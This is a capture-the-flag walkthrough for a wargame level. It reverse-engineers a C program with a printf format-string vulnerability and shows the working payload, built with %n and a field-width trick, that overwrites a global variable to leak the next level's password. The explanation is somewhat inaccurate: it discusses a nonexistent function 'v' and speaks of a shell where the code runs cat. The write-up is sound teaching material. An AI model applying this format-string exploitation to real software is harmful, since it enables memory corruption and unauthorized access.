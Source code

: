 # Level 4

## Answer
Our C source code generates the same assembly code as the original binary. Compile it as follows:
```
gcc -fno-stack-protector source.c
```

Let's take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>

int m;

void p(char *buffer)
{
    printf(buffer);
}

void n(void)
{
    char buffer[512];
    fgets(buffer, 512, stdin);

    p(buffer);
    if (m == 16930116)
        system("/bin/cat /home/user/level5/.pass");
}

int main(void)
{
    n();
}
```

Let's focus on the `v` function. It reads input using the `fgets` function, which is known to be safe due to its mechanism to limit the number of bytes read. However the `printf` function (called from the `p` function) is known to be unsafe when user input is passed as the format argument, it's referred to as a format string vulnerability.

This exercise is the same as the previous one, except that we have to write 16930116 bytes to the `m` variable to spawn a shell. Please refer to the [level3 walkthrough](../level3/walkthrough.md) for a detailed explanation of the format string vulnerability.

So, First let's locate our input string on the stack and then determine the address of `m`:
```bash
$ python -c 'print("AAAA" + "%x %x %x %x %x %x %x %x %x %x %x %x")' | ./level4
AAAAb7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 41414141
```

In this output, 41414141, the hexadecimal representation of 'AAAA', is found at the twelfth position.

The assembly code reveals that the address of the `m` variable is `0x8049810`.

We can then craft our payload:
```
address of m + padding + %n format specifier pointing to the twelfth argument

"\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n"

Since we need to write 16930116 into m, we write 16930116 characters (4 from the address of m and 16930112 from the width specifier of %p). 
Then, we use the %n format specifier to record the count of bytes written so far into the twelfth argument, which is m's address.
```

Let's run our payload:
```bash
level4@RainFall:~$ python -c 'print("\x08\x04\x98\x10"[::-1] + "%16930112p" + "%12$n")' | ./level4
[...]
0xb7ff26b0
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

We are now level5! Let's move on to the next level.
